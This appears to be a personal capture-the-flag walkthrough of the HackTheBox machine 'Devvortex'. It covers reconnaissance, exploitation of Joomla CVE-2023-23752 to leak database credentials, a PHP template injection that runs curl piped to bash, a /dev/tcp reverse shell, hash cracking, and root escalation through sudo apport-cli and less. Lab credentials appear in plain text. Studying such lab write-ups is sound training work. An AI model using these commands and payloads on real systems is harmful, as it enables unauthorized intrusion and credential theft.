 # Initial 
Nmap ports tcp scan
![[screenshot-2025-01-23-04-27-52.png]]

Nmap services scan
![[Pasted image 20250122233155.png]]
whatweb
```bash
whatweb http://devvortex.htb
http://devvortex.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@DevVortex.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.242], JQuery[3.4.1], Script[text/javascript], Title[DevVortex], X-UA-Compatible[IE=edge], nginx[1.18.0]
```
# Sub domain fuzzing


![[Pasted image 20250122235341.png]]

# Routes
have joomla cms version 4.2.6 CVE-2023-23752

http://dev.devvortex.htb/api/index.php/v1/config/application?public=true

```json
{
    "type": "application",
    "id": "224",
    "attributes": {
    "user": "lewis",
    "id": 224
}
},
{
    "type": "application",
    "id": "224",
    "attributes": {
    "password": "P4ntherg0t1n5r3c0n##",
    "id": 224
}
```
# Revshell

http://dev.devvortex.htb/administrator/index.php?option=com_templates&view=template&id=223&file=L2Vycm9yLnBocA&isMedia=0

add 
system("curl 10.10.14.14:9080/rev.sh|bash");

python3 -m http.server 9080

create file rev.sh
```bash
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.14/9080 0>&1
```


# Privilege scalation

```bash
mysql -u lewis -p

use joomla;
select * from sd4fg_users;

hashid hash
hashcat -m 3200 /usr/share/wordlists/rockyou.txt
```

change user logan 
Credentials:
logan:tequieromucho
```
ssh logan@ip
cat user.txt
sudo -l 
sudo /usr/bin/apport-cli -f -p <PID sysmtemd
```

we preceed to select view report and since ```less``` is configured as the default pager we can run ```!/bin/bash ```

cat root.txt










